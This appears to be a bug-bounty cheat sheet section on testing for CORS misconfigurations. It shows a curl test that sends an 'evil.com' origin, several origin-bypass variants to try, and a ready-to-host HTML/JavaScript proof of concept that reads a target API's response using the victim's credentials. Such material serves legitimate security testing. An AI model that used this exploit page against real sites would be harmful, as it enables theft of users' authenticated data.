 ## Cross Origin Resource Sharing (CORS)

Testing:
`curl --head -s 'http://example.com/api/v1/secret' -H 'Origin: http://evil.com'`

Some testing conditions: 
 if site: test.example.com
 Origin: testXexample.com
 Origin: test.example.com.np
 Origin: test.xexample.com
 
Check to see what the server responds with in the `Access-Control-Allow-Origin:` (if anything) and if so, check if `Access-Control-Allow-Credentials: true` is present.

If it is trusting arbitrary origins **with** allow-credentials set to true, then host this HTML as a proof of concept.

```
<!DOCTYPE html>
<html>
<head><title>BugBounty CheatSheet</title></head>
<body>
<center>
<h2>CORs POC</h2>

<textarea rows="10" cols="60" id="pwnz">
</textarea><br>
<button type="button" onclick="cors()">Exploit</button>
</div>

<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("pwnz").innerHTML = this.responseText;
    }
  };
  xhttp.open("GET", "http://example.com/api/v1/topsecret", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
```

**Tools**
- [CORStest](https://github.com/RUB-NDS/CORStest)